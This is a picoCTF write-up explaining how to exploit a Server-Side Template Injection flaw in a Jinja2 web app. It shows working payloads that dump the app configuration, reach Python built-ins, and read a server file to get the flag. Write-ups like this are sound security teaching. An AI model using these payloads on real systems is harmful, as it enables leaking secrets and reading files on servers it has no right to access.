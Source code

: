 # picoCTF SSTI1 Challenge Write-up  

## Challenge Description  

This challenge involves identifying and exploiting a **Server-Side Template Injection (SSTI)** vulnerability in a web application. Our goal is to manipulate the template engine to extract sensitive data.  

## Steps to Solve the Challenge  

### 1. Start the Instance  

First, start the instance provided in the challenge:  

![Start Instance](SSTI1-1.png)  

Once the instance is running, open the website in your browser.  

### 2. Analyzing the Web Application  

When we visit the website, we see an input field where we can submit an announcement:  

![Web Application](SSTI1-2.png)  

The challenge hint refers to **SSTI**, so we begin by testing for **template injection**.  

### 3. Testing for SSTI  

A common way to check for SSTI is by injecting `{{7*7}}`. If the template engine evaluates this input, it will return `49`.  

I entered:  

```
{{7*7}}
```  

After submitting, the browser redirected me to a new directory and displayed the result:  

![Output](SSTI1-3.png)  

This confirms that the application is vulnerable to **Server-Side Template Injection**.  

### 4. Identifying the Template Engine  

To determine the template engine being used, we can look at the response headers. The server is identified as `Werkzeug/3.0.3 Python/3.8.10`, which strongly suggests **Jinja2** is in use.  

### 5. Exploring Application Configuration  

Next, we can try extracting the application configuration using:  

```
{{config.items()}}
```  

This can reveal sensitive information about the application’s settings.  

### 6. Accessing Python Built-ins  

By leveraging SSTI, we can access Python's built-in functions:  

```
{{self.__init__.__globals__.__builtins__}}
```  

This exposes functions like `open`, which we can use to read files.  

### 7. Reading the Flag  

Finally, to read the contents of the flag file, we execute:  

```
{{self.__init__.__globals__.__builtins__.open('flag.txt').read()}}
```  

Executing this payload successfully reveals the **flag**. 🎉  

---

## Conclusion  

This challenge demonstrated how an **SSTI vulnerability** can be exploited in a Python web application using Jinja2. By carefully crafting payloads, we were able to access built-in functions and retrieve sensitive information.  